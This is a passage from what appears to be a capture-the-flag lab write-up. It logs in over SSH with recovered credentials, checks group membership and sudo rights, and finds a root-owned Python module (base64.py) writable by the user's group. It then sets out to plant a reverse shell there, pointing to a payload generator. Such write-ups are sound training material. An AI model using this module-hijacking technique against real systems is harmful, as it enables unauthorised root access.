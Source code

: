 We have `valley` and `liberty123`. It looks like our username and password. 😊

Let's try using it to log on using SSH.

```
$ ssh valley@10.10.233.14                            
valley@10.10.233.14's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-139-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 * Introducing Expanded Security Maintenance for Applications.
   Receive updates to over 25,000 software packages with your
   Ubuntu Pro subscription. Free for personal use.

     https://ubuntu.com/pro
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

valley@valley:~$ 
```

Let's check which groups the user `valley` belongs to:

```
valley@valley:~$ id
uid=1000(valley) gid=1000(valley) groups=1000(valley),1003(valleyAdmin)
```

Let's try `sudo`.

```
valley@valley:~$ sudo -l
[sudo] password for valley: 
Sorry, user valley may not run sudo on valley.
```

The `valley` user can't run sudo, however, we can check if they have write permission on `/usr/lib/python3.8/base64.py`.

```
-rwxrwxr-x 1 root valleyAdmin 20382 Mar 13 03:26 /usr/lib/python3.8/base64.py
```

Yeah! This way, we can proceed with the modification of the Python module.

Let's generate a reverse shell at [revshells.com](https://www.revshells.com/)
